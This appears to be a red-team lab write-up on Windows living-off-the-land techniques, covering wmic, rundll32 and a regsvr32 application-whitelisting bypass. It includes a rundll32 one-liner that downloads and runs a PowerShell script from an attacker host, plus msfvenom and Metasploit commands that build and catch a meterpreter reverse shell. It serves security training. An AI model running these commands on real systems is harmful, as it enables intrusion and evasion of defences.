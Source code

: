 It is a Windows command-line utility that manages Windows components. Researchers found that WMIC can be used to execute binaries evading defensive measures.

```C
wmic.exe process call create calc
```

**rundll32:**

It is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript (with a caveat) and PowerShell scripts.

```C
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

- `mshtml.dll` is a Internet Explorer/HTML engine, which supports running JScript/VBScript.

Command to run a JavaScript that executes a PowerShell script to download from a remote website:

```C
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

## Application Whitelisting Bypasses
---
Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. It is a feature from Microsoft Endpoint Security Suite.

**Regsvr32:**

**Intended Purpose:** register and unregister Dynamic Link Libraries (DLLs) in Windows Registry.

Adversaries leverage regsvr32.exe to execute native code or scripts locally or remotely. The technique used in the regsvr32.exe uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting.

- C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
- C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Demonstration:

**1. Create a malicious .dll using msfvenom**

```C
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
```

**2. Create a Metasploit listener to receive a reverse shell**

```C
msfconsole -q 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
set LHOST ATTACKBOX_IP
set LPORT 443 
exploit
```
